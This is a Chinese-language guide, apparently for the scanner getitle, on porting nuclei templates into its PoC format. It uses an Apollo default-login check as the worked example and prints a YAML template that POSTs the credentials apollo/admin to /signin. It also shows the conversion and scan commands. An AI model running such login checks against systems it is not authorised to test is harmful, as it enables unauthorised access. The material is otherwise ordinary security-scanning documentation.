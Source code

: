 # 编写POC

getitle的poc采用了nuclei的poc, 但删除了部分nuclei的语法. 例如dsl. 并且有部分较新的nuclei语法暂不支持. 

getitle 目前支持tcp(暂不支持tls tcp)与http协议的绝大部分nuclei poc

## 从nuclei templates 迁移poc

https://github.com/projectdiscovery/nuclei-templates

大部分poc仅需简单修改即可在getitle中使用.

### 示例  迁移apollo-login poc 到getitle

https://github.com/projectdiscovery/nuclei-templates/blob/d6636f9169920d3ccefc692bc1a6136e2deb9205/default-logins/apollo/apollo-default-login.yaml



![image-20220806183221407](img/poc.png)



这个poc需要进行一些删减和改动. 

1. 删除一些header信息, 并且根据getitle的指纹重新添加tags
2. 减少不必要的发包, apollo实际上只需要第一个signin的包即可确定是否成功
3. dsl在getitle中已删除, 因为dsl不是必要功能, 大部分场景都能通过正则实现, dsl只是减少复杂场景的使用难度. 因此, 我们可以把这段dsl修改为匹配固定值



**step 1** 删除不必要的header, 仅保留如下信息, 并重新添加tags

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo
```



**step2 and step3** 原本的poc中有两个包, 修改为一个. 最终成果

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo

requests:
  - raw:
      - |
        POST /signin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Origin: {{BaseURL}}
        Referer: {{BaseURL}}/signin?
        
        username={{user}}&password={{pass}}&login-submit=Login
    attack: pitchfork
    payloads:
      user:
        - apollo
      pass:
        - admin
    matchers-condition: and
    matchers:
      - type: word
        part: header
        negative: true
        words:
          -  '?#/error'
        condition: and

      - type: status
        status:
          - 302
```



**测试**

因为getitle为了缩减体检, 仅使用了标准json库, 所以需要先将yaml转为json

使用自带的脚本 `yaml2json.py`.

`python yaml2json.py apollo-login.yml -f apollo-login.json` 

 

指定ef文件加载poc

`gt.exe -ef .\poc.json -ip 127.0.0.1 -e -p 80`

![image-20220806194210422](img/run.png)



**提交poc**

官方的poc仓库位于 https://github.com/chainreactors/getitle-templates/tree/master/nuclei

提交对应的pr, 将poc放到合适的文件夹下. 下次release就会自动编译到二进制文件中.